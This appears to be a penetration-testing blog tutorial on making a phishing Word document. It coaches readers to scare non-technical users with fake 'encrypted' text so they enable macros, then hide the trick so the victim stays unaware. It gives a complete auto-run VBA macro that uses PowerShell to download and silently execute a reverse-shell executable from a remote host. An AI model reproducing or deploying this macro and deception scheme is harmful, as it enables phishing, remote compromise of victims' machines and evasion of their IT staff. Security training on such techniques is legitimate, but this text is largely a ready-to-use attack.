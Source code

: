 
---
title: "Create A Phishing Word Document With Macros To Get A Reverse Shell"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---

## High Level

This post goes hand in hand with How To Make A Reverse Shell With Microsoft Word Macros since this post will not be covering the macro part required for the actual reverse shell. Instead, this post will go over convincing techniques to trick users into enabling macros. By presenting some kind of "masked" information we can convince the user to enable macros under the guise of unmasking said information. In reality we are taking advantage of someone's uncomfortability with technology, presenting them with scary looking text, and instructing them that the only way to see what they intending to click on by enabling the macros. Leveragin VBA we can essentially swap out all the information on the screen for a predefined other set of information. To the user they are "decrypting" the information. To us, we are swapping out text that looks scary for something they are expecting, running our reverse shell, and all because the user thinks they need to enable macros to see the information. You can see where your creativity will come into play in your pursaviness to get someone to click on the right thing. In this scenario we are going to demonstrate a very non-creative way of phishing simply for education streamlining. We will leave the creativity up to you.

## "Encrypted" Text

The first step is purely phishing based. In a new Word document start to put together what you think is a convincing appearance that someone needs to "decrypt" in some way to be able to see the information they want. This could include incorprating things like: a long string of bas64 text, some sayings about this message being encrypted, blurred or fuzzy text, and pictures or watermarks referring to some kind of encryption class. In the example below you can see a very bare bones template. The more convincing and scary your phishing tactics are the more likely someone will click on enable all content without question.

## Insert Picture Here

## The Switch

Once our target enables all content we need to visually switch the text so that it appears as if the document really has been decrypted. This is not only so that the user does not have any concerns or contact their IT Admin but also so that the target will leave the document up and running long enough for our shell to connect. Copy your encrypted text temporarily and begin building what text the user expected to see. For a fake job application you would obviously include contents of a fake resume as to not raise suspicions. Select all of your decrypted text and go to Insert --> Quick Parts --> AutoTexts --> Save Selection to AutoText Gallery. While in "Create New Building Block" create and remember a unqiue name and select OK. Remove your decrypted text and replace it with the encypted text. Next, we will edit our existing macro to switch the text from encrypted to decrypted when macros are enabled.

## Editing Macro

```
Sub MyMacro()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("DecryptedText").Insert Where:=Selection.Range, RichText:=True
End Sub
```

We will be inserting this code into our already existing micro. Let us go through how it works and then you can see what the complete macro looks like. ActiveDocument.Content.Select selects all of the existing content, like a ctrl-a command, and is then deleted by Selection.Delete. Next, Word searches for our auto text entry which I have named DecryptedText. Switch out this name for whatever you named your auto text entry.

## Full Macro

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
   ActiveDocument.Content.Select
   Selection.Delete
   ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```
## Takeaways
Remember to save the document as .doc versus .docx or else this attack will not work properly. This macro still does not employ best practices by downloading the reverse shell instead of loading and executing in memory. For a complete post on this please checkout the blog post: INSERT LINK TO NEXT BLOG HERE
